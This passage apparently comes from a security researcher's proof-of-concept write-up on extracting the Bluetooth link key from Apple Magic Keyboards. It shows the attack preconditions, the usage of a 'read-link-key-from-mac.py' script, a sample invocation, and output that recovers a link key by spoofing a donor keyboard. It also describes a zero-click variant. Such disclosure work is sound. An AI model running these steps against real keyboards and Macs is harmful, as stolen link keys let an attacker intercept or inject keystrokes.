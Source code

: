 #### Starting State

- Magic Keyboard is paired with a Mac that does not have Lockdown Mode enabled
- The attacker knows the Bluetooth address and serial number of the Magic Keyboard
- The attacker as a donor Magic Keyboard (which will be temporarily reconfigured to spoof the target keyboard)

#### Running the PoC

```
> ./read-link-key-from-mac.py --help
usage: read-link-key-from-mac.py [-h] -a KEYBOARD_ADDRESS -s KEYBOARD_SERIAL

options:
  -h, --help            show this help message and exit
  -a KEYBOARD_ADDRESS, --keyboard_address KEYBOARD_ADDRESS
  -s KEYBOARD_SERIAL, --keyboard_serial KEYBOARD_SERIAL
```

#### Invocation

```
./read-link-key-from-mac.py -a 1c:57:fc:08:65:12 -s F1T2107RUNW12NXA9
```

#### Output

```
[2024-01-07 10:34:53.910]  Turn on the donor keyboard and plug it into this computer
[2024-01-07 10:34:58.200]  changing Bluetooth address from 3C:A6:F6:E1:3D:F0 to 1c:57:fc:08:65:12
[2024-01-07 10:34:58.201]  serial number: F0T230C02AZ0NC1EH -> F1T2107RUNW12NXA9
[2024-01-07 10:34:58.202]  Unplug the donor keyboard and plug it into the Mac.
[2024-01-07 10:34:58.202]  Wait a few seconds, then plug it back into this computer.
[2024-01-07 10:35:02.533]  keyboard was unplugged
[2024-01-07 10:35:13.463]  keyboard has returned
[2024-01-07 10:35:13.464]  Mac BT Address - a4:c3:99:e8:a8:6c
[2024-01-07 10:35:13.464]  BT Link-Key    - c95e3ec98809f2745d32029e7f97b67e
```

### Magic Keyboard Link Key via Bluetooth

When the Magic Keyboard is plugged into the Mac, the Mac sends the Bluetooth link key to the Magic Keyboard over USB.

The link key remains in memory until the Magic Keyboard is powered off, and can be read via an unauthenticated Bluetooth HID service on the keyboard.

The unauthenticated Bluetooth HID service becomes available when the Magic Keyboard is unplugged from the Mac, and remains available until the Bluetooth link is established.

This is a zero-click attack with a timing component. The PoC does not implement a timing trigger, and instead attempts to connect to the Magic Keyboard in a loop until successful.

#### Affected Versions

The following Apple peripherals were tested and found vulnerable to this attack. No other peripherals were tested, so this list may be incomplete.
